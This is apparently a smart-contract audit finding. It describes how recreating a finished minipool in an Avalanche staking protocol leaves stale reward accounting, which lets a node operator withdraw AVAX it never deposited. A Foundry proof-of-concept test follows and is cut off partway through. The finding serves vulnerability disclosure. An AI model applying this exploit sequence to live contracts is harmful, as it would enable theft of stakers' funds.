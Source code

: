 1. Node operator creates a minipool, stakes GGP
2. Rialto starts the pool & ends staking after duration is completed. Rialto sends rewards collected from AVAX validation
3. Node operator withdraws all funds and pool is moved to `Finished` state
4. Rialto multisig either accidentally or maliciously sends `nodeID` of this finished pool to `recreatePool`. `Finished` state of pool is a valid predecessor state to `Prelaunch` state & hence this function gets executed
5. Minipool storage still retains the `NodeOpRewards` of the previous pool & `increaseAVAX` function on `staking` increases AVAX stake. Note that this is only an accounting entry and no actual deposit was made by node operator
6. Node operator can simply wait for cancellation moratorium period to complete & withdraw this AVAX from vault for free causing a loss of funds

```
        function testRecreatePoolWithZeroDeposit() public {
                // STEP 0 - liquid staker stakes enough eth for pool creation
                address liquidStaker = getActorWithTokens("liquidStaker1", 10000 ether, 0);
                vm.startPrank(liquidStaker);
                uint256 shares = ggAVAX.depositAVAX{value: 10000 ether}();
                assertEq(shares, 10000 ether);
                vm.stopPrank();

                // STEP 1 - node operator stakes 1000 GGP
                vm.startPrank(nodeOp);
                ggp.approve(address(staking), 1000 ether);
                staking.stakeGGP(1000 ether);
                assertEq(staking.getGGPStake(nodeOp), 1000 ether);

                // STEP 2 - node operator create minipool of 1000 AVAX
                MinipoolManager.Minipool memory mp1 = createMinipool(1000 ether, 1000 ether, 2 weeks);
                int256 minipoolIndx = minipoolMgr.getIndexOf(mp1.nodeID);
                assertEq(minipoolIndx, 0);
                assertEq(mp1.avaxLiquidStakerAmt, 1000 ether);
                assertEq(mp1.avaxNodeOpAmt, 1000 ether);
                vm.stopPrank();

                // STEP 3 - rialto claims and initiates staking & records staking start
                vm.startPrank(address(rialto));
                minipoolMgr.claimAndInitiateStaking(mp1.nodeID);
                bytes32 txID = keccak256("txid");
                minipoolMgr.recordStakingStart(mp1.nodeID, txID, block.timestamp);

                // STEP 4 - skip 2 weeks to complete duration of pool
                skip(2 weeks);

                // STEP 5 - calculate rewards and deal rialto rewardds
                // in this case, I'm hardcoding 50 ether as rewards
                uint256 rewards = 50 ether;
                deal(address(rialto), address(rialto).balance + rewards);

                // STEP 6 - rialto records staking end
                // pay out the 50 ether rewards at this stage
                minipoolMgr.recordStakingEnd{value: 2000 ether + 50 ether}(mp1.nodeID, block.timestamp, 50 ether);

                vm.stopPrank();

                // STEP 7 - node Op goes and withdraws all funds from pool
                vm.startPrank(nodeOp);
                minipoolMgr.withdrawMinipoolFunds(mp1.nodeID);

                // at this point, nodeOP has withdrawn all AVAX from the pool
                // status of pool is 'Finished
```